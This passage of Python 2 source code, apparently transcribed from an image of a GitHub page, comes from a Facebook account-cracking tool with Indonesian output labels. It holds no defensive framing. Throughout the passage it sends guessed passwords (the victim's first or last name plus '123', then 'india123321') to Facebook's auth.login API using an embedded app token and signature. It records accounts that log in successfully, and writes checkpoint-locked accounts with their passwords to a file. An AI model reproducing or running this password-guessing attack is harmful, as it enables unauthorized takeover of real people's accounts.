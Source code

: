 								print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
								oks.append(user+pass3)
							else:
								if 'www.facebook.com' in q["error_msg"]:
									print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3
									cek = open("out/super_cp.txt", "a")
									cek.write(user+"|"+pass3+"\n")
									cek.close()
									cekpoint.append(user+pass3)
								else:
									pass4 = b['first_name']+'123'
									data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass4)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
									q = json.load(data)
									if 'access_token' in q:
										print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
										oks.append(user+pass4)
									else:
										if 'www.facebook.com' in q["error_msg"]:
											print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass4
											cek = open("out/super_cp.txt", "a")
											cek.write(user+"|"+pass4+"\n")
											cek.close()
											cekpoint.append(user+pass4)
										else:
											pass5 = b['last_name']+'123'
											data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass5)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
											q = json.load(data)
											if 'access_token' in q:
												print '\x1b[1;96m[\x1b[1;92mBerhasil\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
												oks.append(user+pass5)
											else:
												if 'www.facebook.com' in q["error_msg"]:
													print '\x1b[1;96m[\x1b[1;93mCekpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass5
													cek = open("out/super_cp.txt", "a")
													cek.write(user+"|"+pass5+"\n")
													cek.close()
													cekpoint.append(user+pass5)
												else:
													pass6 = 'india123321'
													data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass6)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
													q = json.load(data)
													if 'access_token' in q:
